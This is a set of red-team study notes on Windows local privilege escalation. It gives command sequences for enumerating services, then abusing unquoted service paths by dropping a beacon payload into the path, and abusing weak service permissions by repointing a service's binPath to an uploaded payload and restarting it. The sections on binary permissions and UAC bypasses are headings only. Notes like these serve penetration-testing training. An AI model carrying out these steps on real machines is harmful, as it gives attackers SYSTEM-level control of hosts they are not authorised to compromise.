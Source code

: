 # Host Privilege Escalation Notes

**Windows Services**

Query services
```
sc query
Get-Service | f1
```

Things of interest
1. Binary Path
2. Startup Type
3. Service Status
4. Log on As
5. Dependants and Dependencies

**Unquoted Service Paths**

Get all services and their path
```
run wmic service get name, pathname
```

Check the ACL's of those objects
```
powershell Get-Acl -Path "C:\path\to\service" | f1
```

Using SharpUp
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit UnquotedServicePath
```

***Abusing***
If you have services that are named like Service 1.exe and not quoted we can abuse this by placing a Service.exe beacon in this file path which allows us to abuse it. Could also be the file path name to like *C:\Here is\Service 1.exe* we can drop a *C:\Here.exe* if we have permissions to abuse.
```
cd C:\Program Files\Vulnerable Services
ls
upload C:\Payloads\tcp-local_x64.svc.exe
mv tcp-local_x64.svc.exe Service.exe
ls
run sc stop VulnService1
run sc start VulnService1
```


**Weak Service Permissions**

Check for modifiable services
```
execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices
```

Checking ACL of that service with [this](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)
```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceAcl -Name VulnService2 | select -expand Access
```

We want ChangeConfig to be able to change the binpath and Start and Stop privs to be able to abuse easily

validating the current path and changing it 
```
run sc qc VulnService2
mkdir C:\Temp
cd C:\Temp
upload C:\Payloads\tcp-local_x64.svc.exe
run sc config VulnService2 binPath= C:\Temp\tcp-local_x64.svc.exe
run sc qc VulnService2
run sc stop VulnService2
run sc start VulnService2
```


**Weak Service Binary Permissions**

**UAC Bypasses**
